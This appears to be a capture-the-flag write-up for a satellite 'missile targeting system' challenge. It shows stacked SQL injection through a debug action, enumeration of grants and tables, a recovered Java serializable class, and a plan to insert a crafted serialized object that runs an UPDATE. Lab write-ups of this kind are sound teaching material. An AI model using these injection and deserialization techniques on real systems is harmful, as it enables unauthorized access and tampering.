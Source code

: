 ## Objective
Thwart Jack's evil plan by re-aiming his missile at the Sun.

## Solution

#### Enable the missile targetting system app and get the directory service URI

```
....
INFO: URI: maltcp://10.1.1.1:1025/missile-targeting-system-Directory
```
#### Connect to the Parameter Service


#### Injecting SQL Queries to find the correct injection point

```
;USER();
```

````
[ WARN] (ActionsExecutor-thread-2) Error: 1064-42000: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'USER()' at line 1
2023-12-28 16:17:33.951 esa.mo.nmf.apps.MissileTargetingSystemMCAdapter sqlDebug
WARNING: Debug action error: java.sql.SQLSyntaxErrorException: (conn=676) You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'USER()' at line 1
2023-12-28 16:17:33.957 esa.mo.nmf.apps.MissileTargetingSystemMCAdapter sqlDebug
WARNING: Debug action query: SELECT VERSION();USER();
````

```
;SELECT USER();
```
```
USER(): targeter@172.18.0.3 | 
```

#### Getting the rights on the tables
```SQL
;SHOW GRANTS;
```
```
Grants for targeter@%: GRANT USAGE ON *.* TO `targeter`@`%` IDENTIFIED BY PASSWORD '*41E2CFE844C8F1F375D5704992440920F11A11BA' | 
Grants for targeter@%: GRANT SELECT, INSERT ON `missile_targeting_system`.`satellite_query` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`messaging` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`target_coordinates` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode_to_str` TO `targeter`@`%` | 
```

#### Dumping tables data for juicy information
```SQL
;SELECT * FROM pointing_mode_to_str;
```
```
id: 1 | numerical_mode: 0 | str_mode: Earth Point Mode | str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth. | 
id: 2 | numerical_mode: 1 | str_mode: Sun Point Mode | str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. | 
```
#### Dumping the Java Serialized Data and the automation script
```SQL
;DESCRIBE satellite_query;
```
- Column ```jid``` probably is "Job ID" , ```objects``` field is the Java serialized payload and ```results``` is the output generated after executing the serialized payload 
```
COLUMN_NAME: jid | COLUMN_TYPE: int(11) | IS_NULLABLE: NO | COLUMN_KEY: PRI | COLUMN_DEFAULT: null | EXTRA: auto_increment | 
COLUMN_NAME: object | COLUMN_TYPE: blob | IS_NULLABLE: YES | COLUMN_KEY:  | COLUMN_DEFAULT: null | EXTRA:  | 
COLUMN_NAME: results | COLUMN_TYPE: text | IS_NULLABLE: YES | COLUMN_KEY:  | COLUMN_DEFAULT: null | EXTRA:  | 
```
```SQL
;SELECT * FROM satellite_query;
```
```Java
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.*;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import java.sql.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import com.google.gson.Gson;

public class SatelliteQueryFileFolderUtility implements Serializable {
    private String pathOrStatement;
    private boolean isQuery;
    private boolean isUpdate;

    public SatelliteQueryFileFolderUtility(String pathOrStatement, boolean isQuery, boolean isUpdate) {
        this.pathOrStatement = pathOrStatement;
        this.isQuery = isQuery;
        this.isUpdate = isUpdate;
    }

    public String getResults(Connection connection) {
        if (isQuery && connection != null) {
            if (!isUpdate) {
                try (PreparedStatement selectStmt = connection.prepareStatement(pathOrStatement);
                    ResultSet rs = selectStmt.executeQuery()) {
                    List<HashMap<String, String>> rows = new ArrayList<>();
                    while(rs.next()) {
                        HashMap<String, String> row = new HashMap<>();
                        for (int i = 1; i <= rs.getMetaData().getColumnCount(); i++) {
                            String key = rs.getMetaData().getColumnName(i);
                            String value = rs.getString(i);
                            row.put(key, value);
                        }
                        rows.add(row);
                    }
                    Gson gson = new Gson();
                    String json = gson.toJson(rows);
                    return json;
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            } else {
                try (PreparedStatement pstmt = connection.prepareStatement(pathOrStatement)) {
                    pstmt.executeUpdate();
                    return "SQL Update completed.";
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            }
        } else {
            Path path = Paths.get(pathOrStatement);
            try {
                if (Files.notExists(path)) {
                    return "Path does not exist.";
                } else if (Files.isDirectory(path)) {
                    // Use try-with-resources to ensure the stream is closed after use
                    try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                        return walk.skip(1) // skip the directory itself
                                .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                .collect(Collectors.joining("\n"));
                    }
                } else {
                    // Assume it's a readable file
                    return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                }
            } catch (IOException e) {
                return "Error reading path: " + e.toString();
            }
        }
    }

    public String getpathOrStatement() {
        return pathOrStatement;
    }
}
```
#### Attack Methodology
- Create a query to update the table ```pointing_mode``` : ```UPDATE pointing_mode SET numerical_mode = 1 WHERE id = 1```
- Create a serialized object of the same class we found above and dump the serialized data in HEX format
- Insert the serialized data in the ```missile_targeting_system``` table

